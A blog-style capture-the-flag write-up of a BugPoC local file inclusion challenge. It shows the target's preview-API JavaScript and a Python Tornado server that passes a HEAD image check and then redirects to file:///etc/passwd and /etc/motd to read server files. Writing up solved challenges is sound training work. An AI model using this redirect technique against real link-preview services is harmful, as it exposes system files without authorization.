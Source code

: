 ```yaml
---
layout: post
title:  "LFI Challenge Writeup"
date:   2020-10-06 11:25:10 +0545
author: machinexa
image: /writeups/assets/images/lfichallenge.jpeg
category: Writeups
---
```

<br>

## Description
Browsing twitter i saw a new challenge from BugPoC which was about LFI I immediately started solving it. The image said to visit [http://social.buggywebsite.com/](https://social.buggywebsite.com/) to start the challenge. Also, since it was server sided bug, i got energized to solve. 

### Starting point
First of I had to find sink where i could execute LFI. I tried typing and it generated the option to share. Looking at the source code more, i find a compressed javascript file, it showed various functinons. After analyzing the code, I found out only request starting with `https` made an xhr request and to https://api.buggywebsite.com. It send json data with url and requestTime parameter.
```js
function processUrl(e) {
    requestTime = Date.now(), url = "https://api.buggywebsite.com/website-preview";
    var t = new XMLHttpRequest;
    t.onreadystatechange = function() {
        4 == t.readyState && 200 == t.status ? (response = JSON.parse(t.responseText), populateWebsitePreview(response)) : 4 == t.readyState && 200 != t.status && (console.log(t.responseText), document.getElementById("website-preview").style.display = "none")
    }, t.open("POST", url, !0), t.setRequestHeader("Content-Type", "application/json; charset=UTF-8"), t.setRequestHeader("Accept", "application/json"), data = {
        url: e,
        requestTime: requestTime
    }, t.send(JSON.stringify(data))
```

### Developing client
I had to write a client that interacts with API with those parameters filled with value. First, i found `get_second()` (a function to get current second) in stackoverflow answer. Then for url i used input prompt on while loop. A successful response is shown below. Then i parsed the data using json module. Then the content of image is dumped to file. Here's my source code: [Exploit.py](https://gist.github.com/machinexa2/118a7983b407cca55a6a1801a10acb7c)  

![Response](/writeups/assets/images/lfichallenge_response.png)

Now, i tried different stuffs, ideas such as SSRF but it wasnt working. I later realized it was using urllib3 to make requests which could never result in LFI but only SSRF. Also, SSRF was also not possible as it was not showing response and was probably blocked. Also, since the API wasnt vulnerable i looked for other endpoints etc but nothing seemed to work. Playing with it for some amount of time releaved something that i missed before.  

### Open Graph metadata
It was parsing the `<meta>` tags and reflecting them. OG is short for Open Graph which allows web page to become a rich object in social graph. It had lot of tags and some tags that were being reflected were `og:description`, `og:type`, `og:image` and `og.url`. Also, description, type and url didnt have much effect on the server. However, image was again fetching resources and used urllib3. Trying for SSRF again failed me and wasnt solution of challenge so i moved on.

Looking at different perspective, i found the following details:
* It fetches similar to this `^https://.*\.(jpg|svg|png)`
* Serving other file with extensions fails HEAD test, parser checks by mimetype which can be bypassed
* Seriving `.jpg` file with jpg magic header, base64 encodes the returned image response   

![Details](/writeups/assets/images/lfichallenge_details.png)

I tried putting html, php and other code in jpeg mimetype file but it didnt work. I also tried using exif tags for code execution which didnt work too. I was quite lost at this moments and those weird hints from BugPoC made me more mad.  

### Hitting the jackpot
Since, HEAD request was used to verify whether its image or not, I coded in tornado to create a server. I set content-type and other headers of image, and issued redirection to /etc/passwd at second get request which should hopefully get us /etc/passwd. A small snippet shows how I coded it:   
```python
class FileHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'http://fa0cf2d0f26e.ngrok.io//asset/original.jpg')
    def get(self):
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Location', 'file:///etc/motd')
        self.write("<p>You should be redirected automatically to target URL: <a href='file:///etc/passwd'>file:///etc/passwd</a>")
        self.redirect("file:///etc/motd")

class IndexHandler(tornado.web.RequestHandler):
    def head(self):
        self.set_header('Content-Length', 237)
        self.set_header('Content-Type', 'image/svg+xml')
        self.set_header('Cache-Control', 'public, max-age=0')
        self.set_header('Pragma', 'no-cache')
        self.redirect('/asset/original.jpg')
    def get(self):
        with open('index.html', 'rb') as f:
            self.write(f.read())
```
<br>
Now, lets host the malicious server, and get that file. Also, i rechanged lot of my exploit.py and other files to make it as easy to get the file. I hit the jackpot got the file!

![Pwned](/writeups/assets/images/lfichallenge_pwned.png)

## Takeaway 

* Always try harder, if i left when i failed SSRF, I couldn't have solved the challenge 
* Javascript files are gold mine. Do always read them and try to find sensitive endpoints.
* Coding is essential to exploit development. Make sure you master at least a single programming language.

Some hints from BugPoC helped me but last ones were absurb and meaningless. Also, I necessarily didnt have to code server and client. For server i could have used BugPoC mock endpoint and for client i could have user either burp or browser thought for testing purposes, client is best!

